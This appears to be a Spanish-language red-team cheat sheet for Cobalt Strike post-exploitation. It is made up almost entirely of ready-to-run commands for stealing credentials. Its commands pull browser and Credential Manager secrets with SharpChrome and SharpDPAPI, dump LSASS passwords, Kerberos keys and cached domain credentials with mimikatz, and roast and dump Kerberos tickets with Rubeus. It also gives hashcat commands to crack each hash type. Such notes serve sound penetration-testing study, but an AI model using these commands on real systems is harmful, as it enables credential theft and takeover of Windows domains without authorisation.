 ## 🗝️ **EXTRACCIÓN DE CREDENCIALES DESDE NAVEGADORES WEB**

- Requiere *Medium Level Beacon*

```powershell
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```


## 🛡️ **EXTRACCIÓN DE CREDENCIALES: WINDOWS CREDENTIAL MANAGER**

- Requiere *Medium Level Beacon*, y acceso a la cuenta del usuario que queremos sacar las credenciales.

>Enumeramos si hay credenciales guardadas
```powershell
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
```

>Desciframos con *SharpDPAPI*
```powershell
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```


## 🧠 **EXTRAER CREDS DEL OS**

> Sacar el **NTLM** -> Pass The Hash
> Debes tener high beacon y luego usar el **! para suplantar el ID de SYSTEM**

```powershell
beacon> mimikatz sekurlsa::logonpasswords
```

 ```powershell
 PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 1000 .\ntlm.hash .\example.dict -r .\rules\dive.rule
```


> Sacar **AES256 kerberos KEY** -> el des_cbc_md4 mas largo.

```powershell
beacon> mimikatz sekurlsa::ekeys
```

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 28900 .\sha256.hash .\example.dict -r .\rules\dive.rule
```

## 📦 **CREDENCIALES ALMACENADAS EN EL CACHE DEL DOMINIO**

```powershell
beacon> mimikatz !lsadump::cache
```

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 2100 .\mscachev2.hash .\example.dict -r .\rules\dive.rule
```

## 🔥 **KERBEROS TICKETS**

**AS-REP Roasting**

> Buscar cuentas

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap
```

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 18200 .\asrep.hash .\example.dict -r .\rules\dive.rule
```

**Kerberoasting**

> Buscar cuentas

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /format:hashcat /simple
```

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
```


**Extraer  Tickets**

>Debes tener *High Level integrity*
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage


beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x35b1d /service:krbtgt /nowrap
```

